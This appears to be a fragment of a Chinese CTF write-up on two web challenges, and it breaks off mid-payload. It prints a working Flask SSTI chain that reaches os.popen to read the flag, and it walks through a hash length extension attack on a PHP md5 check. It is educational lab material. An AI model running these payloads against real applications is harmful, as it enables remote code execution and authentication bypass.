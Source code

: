![](https://s2.loli.net/2024/05/05/tv8fQJAOlnZBrqG.png)

`username=admin&password=asdqwe`

进去之后是 ssti
出题人wp：

> 进入之后可以看到输入什么可以在前端页面反应，输入中文会变成{}，这里如果尝试写两个中文
加77，类似:￥，77，可以得到回显49
这里就比较明显是一个flask的ssti，鉴于如果出常规flask的ssti会被工具一把梭，类似fengjin。
所以搞一个中文防止被一把过。

```ssti
你好()|attr(request.values.x1)|attr(request.values.x2)|attr(request.values.x3)
()|attr(request.values.x4)
(221)|attr(request.values.x5)|attr(request.values.x6)|attr(request.values.x4
)(request.values.x7)|attr(request.values.x4)(request.values.x8)
(request.values.x9)&x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem_
_&x5=__init__&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__('os').pop
en('cat /flag').read()
```

### **give me flag**

```php
<?php
include('flag.php');
$FLAG_md5 = md5($FLAG);
if(!isset($_GET['md5']) || !isset($_GET['value']))
{
    highlight_file(__FILE__);
    die($FLAG_md5);
}

$value = $_GET['value'];
$md5 = $_GET['md5'];
$time = time();

if(md5($FLAG.$value.$time)===$md5)
{
    echo "yes, give you flag: ";
    echo $FLAG;
}
b83a01a61c8e63f7c905cf71aab83117
```
> 学习第一的wp

哈希长度拓展攻击
[Unix 时间戳(Unix timestamp)转换工具 - 站长工具](https://tool.chinaz.com/tools/unixtime.aspx)
将当前时间戳往后 100 秒
比如当前时间戳为1714025400 那就加100：1714025500
根据平台特性是动态flag 位数是固定的43位
然后用 hash_ext_attack.py构造一个payload
![](https://s2.loli.net/2024/05/07/2iSTUeBqAvHuyj5.png)
> 注意提交的$value
是 %80%00%00%00%00%00%00%00%00%00%00%00%00X%01%00%00%00%00%00%001714025500 去掉后缀的
时间戳 `%80%00%00%00%00%00%00%00%00%00%00%00%00X%01%00%00%00%00%00%00
